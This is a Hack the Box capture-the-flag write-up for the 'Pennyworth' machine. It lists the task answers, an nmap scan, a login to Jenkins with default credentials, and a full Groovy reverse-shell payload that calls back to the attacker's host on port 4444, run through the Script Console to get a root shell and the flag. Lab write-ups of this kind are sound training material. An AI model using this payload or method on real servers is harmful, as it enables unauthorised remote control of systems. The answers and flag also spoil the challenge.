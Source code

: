 # Pennyworth
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Pennyworth
* Topic: [[Java]] [[CVE]]
* Difficulty: Very easy
* Date: 17-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What does the acronym CVE stand for? 
- **Common Vulnerabilities and Exposures**
2. What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for? 
 - **confidentiality, integrity, availability**
3. What is the version of the service running on port 8080? 
- **Jetty 9.4.39.v20210325**
4. What version of Jenkins is running on the target? 
- **2.289.1**
5. What type of script is accepted as input on the Jenkins Script Console? 
- **groovy**
6. What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows? 
- **cmd.exe**
7. What is a different command than "ip a" we could use to display our network interfaces' information on Linux? 
- **ifconfig**
8. What switch should we use with netcat for it to use UDP transport mode? 
- **-u**
9. What is the term used to describe making a target host initiate a connection back to the attacker host? 
- **reverse shell**

---
## Flag:
nmap:

```console
┌──(kali㉿kali)-[~]
└─$ nmap -n -sC -sV 10.129.111.154
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-16 18:07 EDT
Nmap scan report for 10.129.111.154
Host is up (0.078s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.39.v20210325)
| http-robots.txt: 1 disallowed entry 
|_/

Nmap done: 1 IP address (1 host up) scanned in 12.81 seconds
```

We have Jetty running on port 8080. Also, nmap found an entry in /robots.txt.

If we open the page, we see a login page.

![](./attachments/Pasted%20image%2020220417133302.png)

The robots.txt file is simply telling search engines not to index the site.

![](./attachments/Pasted%20image%2020220417133502.png)

We can try some default credentials. 

User:pass `root:password`

![](./attachments/Pasted%20image%2020220417141023.png)

We are in.

Looking around, we find a Script console under the Manage Jenkins tab. It interprets Groovy scripts.

All we have to do now is make a Groovy script that can execute a reverse shell on the server, meaning that the server will try to initiate a shell connection back to us.

![](./attachments/Pasted%20image%2020220417144615.png)

Searching for a payload, we find [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy) cheat sheet detailing a reverse shell for Groovy. 

```
String host="10.10.14.15";
int port=4444;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

We can add

```
Thread.start {
    // Reverse shell here
}
```

To make the reverse shell more stealthy on the target

Before we can execute the payload we need to connect we need to run a netcat listener on port 4444.

Command:

`nc -lvnp 4444`

`l`: Listening mode

`v`: Verbose mode

`p`: Specify port, in this case 4444.

`n`: No DNS. Numeric IP only.

```console
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444            
listening on [any] 4444 ...
```

Now we can execute the payload.

It worked, netcat received a connection from the host. We are now logged in as root.

```console
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444            
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.90.88] 44516
whoami
root
```

![](./attachments/Pasted%20image%2020220417152724.png)

Looking around:

```console
#cd /root
#ls
flag.txt
snap
#cat flag.txt
9cdfb439c7876e703e307864c9167a15
```

We got the final flag.

**Flag:** `9cdfb439c7876e703e307864c9167a15`

---
**Tags:** [[HackTheBox]]